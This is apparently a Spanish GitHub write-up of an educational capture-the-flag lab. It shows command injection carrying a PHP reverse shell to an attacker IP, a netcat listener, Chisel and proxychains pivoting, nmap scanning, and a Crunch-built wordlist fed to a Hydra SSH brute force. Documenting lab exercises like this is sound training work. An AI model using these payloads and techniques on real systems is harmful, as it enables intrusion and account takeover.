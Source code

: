 # CTF-4
*Capture the flag* donde se trabaja el *pivoting* entre máquinas de la misma red, *reverse shell*, escucha de puertos, montaje de un servidor con *Python*, *Crunch*, *Hydra*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-chisel-CD1414?style=for-the-badge&logo=chisel&logoColor=white" />
  <img src="https://img.shields.io/badge/-Proxychains-3EBBDF?style=for-the-badge&logo=proxychains&logoColor=white" />
  <img src="https://img.shields.io/badge/-nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Crunch-0080FF?style=for-the-badge&logo=crunch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Hydra-77B6A8?style=for-the-badge&logo=hydra&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretende conseguir un archivo (_flags_), dentro del entorno del usuario básico. Para ello, se deberá pivotar desde la máquina resuelta en el [CTF-3](https://github.com/Cibersegurata39/CTF-3) a la máquina de este nuevo reto y una vez dentro pasar al usuario básico.

## Que hemos aprendido?

- Realizar un *pivoting* entre dos máquinas de la misma red.
- Realizar una *reverse shell* con código *php*.
- Poner puertos en escucha.
- Montar un sevidor fácilmente con *Python*.
- Encontrar una máquina y enumerar sus puertos.
- Montar un diccionario a partir de una secuencia dada de caracteres.
- *Crackear* una contraseña.

## Herramientas utilizadas

- *Kali Linux*.
- *Pivoting*: *Python3*, *Chisel*, *Proxychains*.
- Enumeración: *Nmap*.
- Penetración: *Netcat*, *Crunch*, *Hydra*. 

## Steps

### Vulnerabilidades explotadas

Partiendo del primer formulario encontrado en el CTF-3, ejecuto una *reverse shell* con código **php**, indicando la dirección IP y el puerto de la máquina local que estará escuchando.

<code>;ls;php -r '$sock=fsockopen("10.0.2.15",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</code>

![image](https://github.com/user-attachments/assets/8ec4b208-1dd2-47d4-8f79-9155f6f56acf)

Para poner en escucha el puerto 1234, utilizo **Netcat**.

<code>nc -lvnp 1234</code>

La conexión ha sido un éxito, esta muestra la IP de la máquina 172.18.0.2.

![image](https://github.com/user-attachments/assets/9eaefd34-4035-4094-af1e-db536c3b4a07)

Para **pivotar** entre máquinas, es necesario descargar el programa **Chisel** en la máquina atacante. Puesto que también se necesita en la máquina que acabamos de penetrar (máquina intermedia, a partir de ahora), se crea un servidor con **Pyhotn3** desde la carpeta donde se encuentra *Chisel* (máquina atacante). Este sevidor es necesario para poder descargar el programa en la máquina intermedia, ya que no dispone de esta herramienta y tampoco se puede descargar directamente desde ella, pues está muy capada.

<code>python3 -m http.server 8080</code>

![image](https://github.com/user-attachments/assets/7f85fb6c-c443-49e6-9a1f-174109bea616)

Puesto que tampoco dispone de los binarios <code>wget</code> o <code>curl</code>, se utiliza un pequeño código *php* para realizar la descarga ('descarga_archivo.php'). En el código se indica la dirección donde se encuentra *Chisel* (máquina atacante), así como donde guardarlo (máquina intermedia). Se guarda en la carpeta '/tmp'. pues desde ahí se tienen permisos de ejecución.

Una vez descargado y otorgados los permisos de ejecución, lo lanzo desde la máquina anfitriona, como servidor, y pongo en escucha el puerto 3456 (por ejemplo).

<code>chisel server --reverse -p 3456</code>

![image](https://github.com/user-attachments/assets/a40614a5-773f-4d32-881f-1c3463a639bc)

También lo lanzo en la máquina intermedia, como cliente, indicándole la dirección IP y puerto de la máquina atacante. Además, con ‘R:socks’ indico que me de acceso a todas las IPs/puertos con las que esté conectada la máquina intermedia (conexión con la máquina víctima a la que se pretende conseguir llegar).

<code>. /chisel client 10.0.2.15:3456 R:socks</code>

![image](https://github.com/user-attachments/assets/d88edd57-7d66-4665-a25d-8ea6fcf3f85d)

Ahora la máquina anfitriona, por medio del puerto 3456, tiene visibilidad de las posibles conexiones de la máquina intermedia, como podría ser la máquina final.

Para hacer un barrido de IPs con el objetivo de encontrar la última máquina, debo utilizar la herramienta **Proxychains** para utilizar el túnel creado con *Chisel*. Se le indica su dirección IP y puerto (se muestra en la *shell* de la máquina atacante después de realizar la conexión), los cuales se añaden en el archivo de configuración.

<code>sudo nano /etc/proxychains4.conf</code>

Se descomenta la línea que contiene *Dynamic_chain* y se comenta la línea que contiene *static_chain*. Además, al final del archivo se añade ‘socks5 127.0.0.1 1080’ (dirección perteneciente al túnel creado).

![image](https://github.com/user-attachments/assets/1410a5c7-1d8a-4d02-bbee-368ca7cb7b7b)

Para utilzar ahora este túnel se utiliza el comando *Proxychains* y se lanza un *nmap* para hacer el barrido de IPs con la dirección de la máquina intermedia y así encontrar aquellas máquinas que estén en su misma red. Al utilizar *proxychains* sería como lanzar el *nmap* desde la propia máquina intermedia. Se indica que no haga reconocimiento *ping* y la máquina final es encontrada en la dirección 172.18.0.3.

<code>proxychains nmap 172.18.0.0/24 -Pn</code>

![image](https://github.com/user-attachments/assets/f133cc92-395e-4f6e-a3da-e846edcd3917)

Ahora se puede realizar un ataque más centrado en esta máquina y buscar qué puertos tiene abiertos y qué versiones corren en ellos.

<code>proxychains nmap 172.18.0.3 -Pn -sV -p-</code>

![image](https://github.com/user-attachments/assets/241f93d4-06fe-4b98-8ff3-f47a3f37af44)

Se encuentra un servicio *SSH* en el puerto 2222, por lo que se intenta la conexión por medio de *proxychains*. Aparece el inconveniente de que ninguna de las contraseñas encontradas en la base de datos sirven para tener acceso. Igual que en el anterior CTF (CTF-3) se encontró, por medio de *SQLMap*, la tabla con la bandera correspondiente, también se encontró una tabla con diferentes usuarios y contraseñas.

![image](https://github.com/user-attachments/assets/1e9d0fc7-495d-4009-a32f-7a9210c3451b)

En tal caso, se va a probar diferentes combinaciones de los caracteres de cada contraseña para ver si alguna es la correcta, empezando con el usuario Pablo pues es el más probable de éxito. Para conseguir la permuta de caracteres se hace uso de la herramienta **Crunch**, la cual creará un diccionario con todas las posibilidades. Indico que las *passwords* generadas tengan una longitud (mínima y máxima) de 8, la contraseña original a partir de la cual se formarán las demás y el nombre del dicionario que se creará.

<code>crunch 8 8 "tefeme\!." -o pwds.txt</code>

![image](https://github.com/user-attachments/assets/bb9dd4c4-0072-41ec-b938-97572b8b82ad)

Una vez creado el diccionario 'pwds.txt', se utiliza este para encontrar la contrasña, por medio de fuerza bruta. Esto es posible gracias a la ayuda de la herramienta **Hydra**. En el comando se indica la IP y el servicio a *crackear*, el usuario (en este caso, como se va a probar con Pablo, se pasa '-l' en minúscula), la contraseña (puesto que es la que se quiere encontrar, se indica con '-P' en mayúscula) y finalmnente se informa del puerto donde se conectará. Por aclarar, si se conoce el usuario o la contraseña, estos se indican con la letra en minúscula. Por contra, si no se conocen se indica con mayúscula.

<code>proxychains hydra 172.18.0.3 ssh -l pablo -P pwds.txt -s 2222</code>

![image](https://github.com/user-attachments/assets/b8957d3e-b8fc-479f-b1d6-8295caf4f3e2)

*Hydra* ha encontrado la contraseña correcta: 'tefeme.!'. Ya sólo queda conectarse vía SSH con esta password y buscar la *flag*.

![image](https://github.com/user-attachments/assets/5881e81f-6cee-4265-be5b-4de96ea09c31)

**Flag: 4d8c72671245d9d1b8e03a826db9d5ecead28c8c**



